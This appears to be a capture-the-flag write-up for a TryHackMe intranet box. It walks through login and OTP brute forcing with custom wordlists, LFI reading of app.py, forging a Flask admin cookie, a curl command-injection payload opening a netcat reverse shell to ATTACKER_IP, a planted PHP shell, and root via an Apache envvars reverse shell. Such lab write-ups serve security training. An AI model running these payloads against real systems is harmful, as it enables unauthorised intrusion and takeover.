This box is rated medium difficulty on THM and has many web parts for us to attack. It involves us brute forcing an account and OTP code with custom wordlists, exploiting LFI to read the application's main code, forging a Flask cookie to gain Admin perms over the site, and escalating privileges to pivot through three accounts.

_Welcome to the intranet!_

## Scanning & Enumeration
As always, I begin with an Nmap scan on the given IP to find any and all running services. I also look for UDP services, but get nothing in return.

```
$ sudo nmap -p7,21,22,23,80,8080 -sCV 10.67.160.52 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-20 17:13 CST
Nmap scan report for 10.67.160.52
Host is up (0.040s latency).

PORT     STATE SERVICE    VERSION
7/tcp    open  echo
21/tcp   open  ftp        vsftpd 3.0.5
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 07:04:c1:d2:28:94:3c:80:8c:d2:f2:68:91:26:45:e7 (RSA)
|   256 a4:c9:bd:97:8f:59:10:42:58:bd:da:19:a3:61:28:ce (ECDSA)
|_  256 9b:75:fc:6c:7d:69:dd:38:d2:e7:62:44:de:07:5a:4f (ED25519)
23/tcp   open  tcpwrapped
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open  http       Werkzeug httpd 2.2.2 (Python 3.8.10)
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.02 seconds
```

There are six ports open:
- Echo on port 7
- FTP on port 21
- SSH on port 22
- Telnet on port 23
- Web servers on port 80 and 8080

Seeing the Echo service is generally rare as it's used to identify network issues and measure latency. Modern system's typically prefer just using ICMP which is also enabled for this machine. This service is prone to DDoS attacks, however it doesn't treat our input as commands so this isn't really of use to us.

FTP anonymous login is disabled, however this could prove useful later on once we obtain credentials. There's always a chance we could upload a reverse shell or read sensitive files left inside of it.

We can't do much else without a username/password so I head over to the webpages. The landing pages show that port 80's is under construction and port 8080's is a login panel for their site.





Checking the source code discloses that the organization has an open bug bounty program and gives us the email for Anders, a senior devops team member.



## Brute Forcing
We can confirm that both anders and devops email addresses work for the login page as verbose errors are enabled. I'll run hydra to try and brute force this account.

I spend a long time trying to brute force HTTP and FTP with different wordlists such as rockyou, fasttrack, etc, but nothing returned. I decided to make a bespoke list with the valid usernames I gathered (anders, admin, and devops). When I supply the password with characters like `&, ', ", #` it detects a hacking attempt and logs it, so we can cut out passwords including those.



I create a custom script for this part however you can use tools like JTR's rules feature or premade scripts on GitHub.

Password list script:

```
import itertools
import argparse

SPECIAL_CHARS = ["!", "@", "#", "$", "%", "&", "*"]

def generate_variants(username, max_digits=4):
    variants = set()

    for digit_len in range(1, max_digits + 1):
        for digits in itertools.product("0123456789", repeat=digit_len):
            digit_part = "".join(digits)

            variants.add(f"{username}{digit_part}")

            for sc in SPECIAL_CHARS:
                variants.add(f"{username}{digit_part}{sc}")

    return variants

def main(input_file, output_file):
    with open(input_file, "r", encoding="utf-8") as f:
        usernames = [line.strip() for line in f if line.strip()]

    all_variants = set()

    for username in usernames:
        all_variants.update(generate_variants(username))

    with open(output_file, "w", encoding="utf-8") as f:
        for variant in sorted(all_variants):
            f.write(variant + "\n")

    print(f"[+] Generated {len(all_variants)} password variants")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Username mutation generator")
    parser.add_argument("-i", "--input", required=True, help="Username wordlist")
    parser.add_argument("-o", "--output", required=True, help="Output wordlist")

    args = parser.parse_args()
    main(args.input, args.output)
```



Rerunning hydra grants us a valid login as anders and we can grab the first flag. After logging in, we're prompted with a OTP and capturing the request shows there aren't any safety measures like rate limiting used here.



I run a ffuf command to send POST requests to the /sms endpoint and get a valid OTP.

```
 ffuf -u http://10.67.160.52:8080/sms -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: session=eyJ1c2VybmFtZSI6ImFuZGVycyJ9.aXAc7A.kzMiLmKhiTNpOdW_w2aT3TRxyUI" -d "sms=FUZZ" -w <(seq -w 0000 9999) -fs 1326
```



Passing that check grants us the second flag. Taking a look around internally shows an admin panel we don't yet have access to, an external news tab, and an internal new tab with an update function at the bottom.

## Exploiting LFI
Looking at the source code, I see a glaring LFI vulnerability here. The site takes the value of news and reads it directly. I run a test to display /etc/passwd using directory traversal and it works.

_Note: Using Burp Suite's repeater tool doesn't work here and will return a 500 internal server error._



I see there only users on the system are anders, devops, and root. Checking some common python names (since the server is running Werkzeug) returns the third flag under /home/devops/app.py.

You could also do this by supplying /proc/self/stat to get the running PID and display it that way.

## Cookie Manipulation
Now that we have the applications code and logic to use, we can find a way to manipulate the flask cookie in order to escalate our account to have admin privileges.

App.py cookie logic:

```
from flask import Flask, flash, redirect, render_template, request, session, abort, make_response, render_template_string, send_file
from time import gmtime, strftime
import jinja2, os, hashlib, random

app = Flask(__name__, template_folder="/home/devops/templates")

FLAG WAS HERE

key = "secret_key_" + str(random.randrange(100000,999999))
app.secret_key = str(key).encode()
```

We can unsign this using a tool called `flask-unsign` as well as a script to brute force the secret key string that gets appended to "Secret_key_". This is what I ended up using:

```
with open("key.txt", "w", encoding="utf-8") as f:
    for i in range(100000, 1000000):
        f.write(f"secret_key_{i}\n")

print("[+] key.txt generated with values secret_key_100000 through secret_key_999999")
```

Then I use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to grab the secret_key. We can also use this tool to reverse the process and sign a new cookie, changing our username to admin.



After supplying that cookie to Firefox, I'm able to navigate to the admin tab and claim the fourth flag. Now, we need to somehow get a reverse shell or find credentials for SSH.

## Initial Foothold
Taking a second look around the website shows that in part of the Admin page's source code, is an HTML form that went missing or didn't get fully deleted. Checking app.py again shows a function that checks if our username is admin and accepts a request form called "debug" that get's called to `os.system`.



```
def admin():
    if not session.get("logged_in"):
            return redirect("/login")
    else:
            if session.get("username") == "admin":

                    if request.method == "POST":
                            os.system(request.form["debug"])
                            return render_template("admin.html")
```

So if we make a POST request using this debug form name, it's possible to grab a shell as it's executing system commands. Since my Burp Suite kept throwing 500 internal server errors, I switch to using cURL.

The system command doesn't get returned to the page as it just renders the admin.html template, but after debugging for a bit I get a reverse shell using a netcat FIFO payload:

```
curl 'http://MACHINE_IP:8080/admin' -X POST -H 'Cookie: session=ADMIN_COOKIE' --data-raw 'debug=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>%261|nc ATTACKER_IP 9001 >/tmp/f'
```

Note: We need to URL encode the '&' in this payload. Other reverse shells could work but this is what I wound up with.

## Privilege Escalation
We finally have a shell as devops and can grab the user flag under their home directory.



As the existence of user2 flag implies, we'll need to pivot to anders' account before grabbing root privileges. 

I start internal enumeration, checking for the usual SUID bits set, sudo privs, and any credentials in hidden files. Looking at the running services/processes shows no signs of www-data which is strange.

Turns out the web server is being ran directly by anders' account instead.



We got shell as devops and see that this account is running app.py so that server must be the one on port 80 from earlier. If we can somehow force a connection from that server towards our attacking machine, we'll get a shell as anders.

Luckily for us, devops is allowed to write to /var/www/html which holds all publicly facing files for that web server. I had trouble copy/pasting a PHP reverse shell into this directory so I used netcat to transfer the file using redirect operators.


On target machine:

```
nc -l -p 4444 > shell.php
```

On local machine:

```
nc TARGET_IP 4444 < shell.php
```



At this point we can grab user2.txt under his home dir and start looking at ways to get root. 

Listing anders' sudo privileges shows that he can restart the Apache server using sudo, which makes sense as he was the one running it. I check for all writeable files for his account and see that we have access to the Apache server's environment variables, which is owned by root.

```
User anders may run the following commands on ip-10-66-175-170:
    (ALL) NOPASSWD: /sbin/service apache2 restart
```

```
find / -type f -writeable 2>/dev/null
```



My shell kept bugging out when trying to edit this so I upload my SSH key to /home/anders/.ssh/authorized_keys so we I could do it properly.

Once able to edit the envvars file, input a simple mkfifo reverse shell under the default apache2ctl environment variables section that points towards your attacking IP. Last step is to use sudo /sbin/service apache2 restart to proc the shell.



Now we have root privs over the system and can grab the final flag to complete the box. 


This was a really fun one to do so thanks to toxicat0r for making it. I hope this was helpful to anyone stuck or following along and happy hacking!
